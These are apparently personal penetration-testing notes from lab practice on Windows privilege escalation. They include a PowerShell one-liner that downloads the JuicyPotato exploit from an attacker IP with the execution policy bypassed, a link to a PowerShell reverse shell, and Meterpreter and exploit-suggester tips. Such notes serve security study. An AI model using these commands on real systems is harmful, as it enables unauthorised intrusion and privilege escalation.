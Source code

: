 
# Windows Shell Commands
- if you're like me, you mostly use windows for development so you may need help when cmds like "whoami" don't work
- great guides with more in depth knowledge
- help escalating: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
- powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.25:5555/JuicyPotato.exe', 'C:\Users\merlin\JuicyPotato.exe')" -bypass executionpolicy
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

## Simple tricks
  - use the below if commands aren't working.  Basically, the process you're currently running has certain restrictions and you want to switch to a more stable one
  - ps
    - migrate [pid]
  - use the metasploit exploit suggester
    - search local_exploit_suggester
  - weird changing of permissions: https://ranakhalil101.medium.com/hack-the-box-chatterbox-writeup-w-o-metasploit-c8421ac09318
  - systeminfo
  - whoami /priv
    - SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
      - then juicy potato exploit: https://github.com/ohpe/juicy-potato/releases

## binaries
  - you can always upload binaries to execute commands you need, but the machine doesn't have
  - list of binaries below:
    - /usr/share/windows-binaries/whoami.exe

## Searching for things
- this includes searching for programs and files (maybe ones you uploaded)

  ### Finding folders
    - dir /s *your file name*

## Windows XP Specific
  - To figure out if you're admin
    - reg query "HKU\S-1-5-19"
